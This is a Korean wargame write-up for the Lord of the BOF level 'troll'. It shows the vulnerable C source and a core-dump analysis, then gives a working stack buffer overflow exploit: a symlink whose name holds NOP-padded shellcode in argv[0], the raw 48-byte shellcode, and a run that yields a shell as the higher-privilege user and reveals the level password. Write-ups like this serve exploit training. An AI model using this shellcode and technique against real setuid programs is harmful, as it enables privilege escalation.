 ```yaml
---
title: "[LOB]Level08. troll"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180829
modify_date: 2018-08-29
article_header:
  type: cover
  image:
    src: 
---
```


[+ Check argc](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	// here is changed
	if(argc != 2){
		printf("argc must be two!\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// one more!
	memset(argv[1], 0, strlen(argv[1]));
}
```

-----

### 0x01. Analysis

 argc의 개수를 2로 정해졌으므로, argv[2]를 사용 하지 못한다.

buffer내용도 0으로 초기화 되며, argv[1]를 이용해서 argv[2]를 덮으려고 해도 길이가 48을 넘어 갈 수 없다.

그리고 argv[1]에 넣은 만큼 0으로 초기화 된다.



트롤 맞네... 😩😫



초기화 안된 영역은 argv[0]영역(실행파일 이름) 밖에 없다.

따라서 파일 이름에 쉘코드를 넣어주어야 한다.

실제 스택에 올라가는 주소를 확인 하기 위해 `troll`파일을 `aroll`파일로 복사한 후 심볼릭 링크를 설정하였다.

```sh
[orge@localhost orge]$ ln -s aroll `python -c 'print "A"*50+"S"*48+"A"*32'`
```

- `A` : 앞 50byte, 뒤 32byte, NOP Code 들어갈 부분 (마지막에 NOP코드를 넣지 않는 경우 제대로 쉘코드가 실행 안되는 경우가 있다.)
-  `S` : 48byte ShellCode 들어갈 부분

이제 만든 심볼릭 링크를 이용하여 실행하여 본다. (core를 생성하자)

```sh
[orge@localhost orge]$ ./`python -c 'print "A"*50+"S"*48+"A"*32'` `python -c 'print "\x90"*44+"\xbf\xbf\xbf\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜옜
Segmentation fault (core dumped)
```

core를 확인해보자.

```sh
[orge@localhost orge]$ gdb -c core
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux".
Core was generated by `./AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASSSSSSSSSSSSSSSSSSSSSSSSSSS'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
```

RET에 정상적으로 `0xbfbfbfbf`가 들어간 것을 확인 할 수 있다.

```sh
(gdb) x/100x $esp
0xbffffc50:     0x000001fb      0x00000010      0x0f8bfbff      0x0000000f
0xbffffc60:     0xbffffc8c      0x00000000      0x00000000      0x00000000
0xbffffc70:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffc80:     0x00000000      0x00000000      0x00000000      0x36383669
0xbffffc90:     0x412f2e00      0x41414141      0x41414141      0x41414141
0xbffffca0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x53535341      0x53535353      0x53535353
0xbffffcd0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffce0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffcf0:     0x53535353      0x41414153      0x41414141      0x41414141
0xbffffd00:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd10:     0x41414141      0x00000041      0x00000000      0x00000000
0xbffffd20:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffd30:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffd40:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb)
```

스택에서 argv[0]부분의 주소를 확인해보면 `0xbffffca0` 근처 부분에 `A`값들이 들어간 것을 확인 할 수있다.

앞서 말한것 처럼 `A`가 들어가는 곳은 NOP Code가 들어가게 되고 `S`가 들어가는 곳은 Shell Code가 들어가는 공간이다.

> 왜 core 덤프로 확인할 때는 실제 NOP Code와 Shell Code를 넣지 않고 'A'와 'S'를 넣었을까?
>
> 실제 NOP코드와 Shell Code를 넣어서 확인하다 보면 터미널에 글씨들이 깨지는 현상이 일어날 때가 있다. 이를 방지하기 위해 공간만 할당하고 일반적인 문자를 넣어 확인한 것이다.

주소를 확인하였으니 실제 `troll` 바이너리를 심볼릭 링크로 걸고 Exploit을 해보자.



```
'\x2f'없는 shell(48byte) = 
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

> `\x2f`는 `/` 에 해당되는 Hex Code이다. 따라서 Shell Code에 `\x2f`가 들어가게 되면 심볼릭 링크하는 과정에서 `/`로 인식하게 된다. 디렉토리 경로를 나눌때 `/`를 이용하기 때문.

-----

### 0x02. Exploit

```sh
[orge@localhost orge]$ ln -s troll `python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80 \xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a \xe2\x9a\xb1\x0c\xce\x81"+"\x90"*32'`
```

이제 `A`와 `S`가 아닌 실제 Code들을 심볼릭 링크 이름으로 설정한다.



```sh
[orge@localhost orge]$ ./`python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x 75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\x b1\x0c\xce\x81"+"\x90"*32'` `python -c 'print "\x90"*44+"\xa0\xfc\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱좢
풺ash$ id
uid=507(orge) gid=507(orge) euid=508(troll) egid=508(troll) groups=507(orge)
bash$ my-pass
euid = 508
aspirin
bash$
```

설정한 심볼릭 링크 이름으로 troll바이너리를 실행한다.

buffer 배열의 40byte와 SFP 4byte를 NOP Code로 덮어씌우고 RET부분에 argv[0] 영역으로 설정하여 Shell Code가 실행되는 것을 확인할 수 있다.

-----

### 0x03. 정리

해당 문제는

- argv[0]와 argv[1]만을 사용
- argv[1]의 길이는 48의 길이 제한
- RET의 시작주소는 `\xbf`로 고정
- 환경변수 초기화
- buffer배열 초기화
- argv[1] 스택 영역 초기화

보호기법이 적용된 문제이다.

이런경우는 **심볼릭 링크를 이용**하여 argv[0]에 Shell Code를 넣어 해결할 수 있음을 알게 해주는 문제이다.

-----

